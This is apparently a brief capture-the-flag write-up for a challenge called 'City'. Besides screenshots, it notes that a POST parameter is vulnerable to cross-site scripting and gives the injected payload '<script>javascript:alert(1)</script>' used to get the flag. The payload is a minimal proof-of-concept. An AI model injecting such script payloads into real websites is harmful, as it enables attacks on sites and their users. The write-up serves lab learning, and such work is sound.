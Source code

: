 # ~ Chall 2 | City 🕵️
![-07-06 042120](https://user-images.githubusercontent.com/108769252/177446080-4234e47e-5c25-44c6-a087-d66cd90145bf.png)
POST:X55 = XSS
PAYLOAD: <script>javascript:alert(1)</script>

# FLAG 😊
![2022-07-06 042421](https://user-images.githubusercontent.com/108769252/177446996-612e57d1-236d-4057-832c-a2a1550648e8.png)
